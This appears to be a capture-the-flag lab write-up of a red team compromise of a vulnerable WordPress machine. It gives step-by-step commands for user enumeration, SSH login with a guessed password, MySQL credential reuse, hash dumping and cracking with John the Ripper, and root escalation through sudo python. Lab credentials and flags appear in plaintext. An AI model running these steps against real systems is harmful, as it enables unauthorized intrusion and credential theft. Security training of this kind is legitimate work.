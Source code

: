 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

![image](Screenshots/NmapScan.JPG "Nmap Scan Results")

```bash
$ nmap -sV 192.168.1.110

  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn
  - Port 445/TCP Open netbios-ssn
```

This scan identifies the services below as potential points of entry:
- Target 1
  - List of Exposed Services
   - Port 22/TCP Open SSH
   - Port 80/TCP Open HTTP


The following vulnerabilities were identified on each target:
- Target 1
  - allowed remote access usign ssh 
  - User enumeration
  - Weak Passwords 
  - Misconfiguration of priviledges 

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1{b9bbcb33e11b80be759c4e844862482d}`
   - **Exploit Used**
    - Used WPScan to enumerate users on the target machine 

![image](Screenshots/WPScan.JPG)
   
      - then used ssh to remote access target 1 and logged into micheal's account with an easy to guess password. 
      - Username: michael
      - Password: michael 
      - Commands used: 
        - ssh michael@192.168.1.110 -p22
        - cd ..
        - cd ..
        - cd var/www/html
        - ls
        - nano service.html
   
![image](Screenshots/Flag1.JPG)
    
  - `flag2 {fc3fd58dcdad9ab23faca6e9a36e581c}`
   - **Exploit Used**
    - Same as flag1. A flag2.txt file was found by snooping around in Micheal's account folders
    - Commands used:
     - cd ..
     - cd ..
     - ls
     - cat flag2.txt
      
 ![image](Screenshots/Flag2.JPG)
 
  - flag3 {afc01ab56b50591e7dccf93122770cd2} 
  - flag4 {715dea6c055b9fe3337544932f2941ce}
   - **Exploit Used** 
    - Used credentials from wp-config.php file for MYSQL database, I logged into MYSQL. Flags 3 and 4 were found in the wp_posts tabel in the MYAQL wordpress database   
 
 ![image](Screenshots/Flag3and4.JPG)
 
 - Flag 4 can also also be foud using the following method
   - Use MySQl credentials in the wp-config file located on Micheal's account to log into MySQL. 
   - User hashes were also discovered in the wp_users table of the wordpress database. The password hashes were then copied to the Kali machine in a file called wp_hashes.txt.
        
![MySQL Credentials](Screenshots/MYSQLDatabasePassword.JPG)

![MySQL Access](Screenshots/MYSQLDatabaseAcess.JPG)

- Commands used:
    - mysql -u root -p (password: R@v3nSecurity from the wp-config.php file on michael's account)
    - show databases;
    - use wordpress; 
    - show tables;
    - select * from wp_users;
![MySQL Hashes](Screenshots/MYSQLPasswordHashes.JPG)

 - After dumping the password hashes into a wp_hashes.txt file onto the Kali machine, I used John the Ripper to crack steven's password
 - Command: `john wp_hashes.txt`
 - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then I used sudo -l to check for steven's priviledges which showed that he was allowed to run python commands with out credentials. 
 - 
 ![Cracked Steven's Hash](Screenshots/JohnCrackedHashSteven.JPG)
 
 ![Steven's Priviledges](Screenshots/StevenPriviledges.png)
 
            - Commands: 
                - ssh steven@192.168.1.110
                - pw:pink84
                - sudo -l
                - sudo python -c 'import os; os.system("bin/bash/")
                - cd /root
                - ls
                - cat flag4.txt
                
![Falg 4](Screenshots/flag4.png)
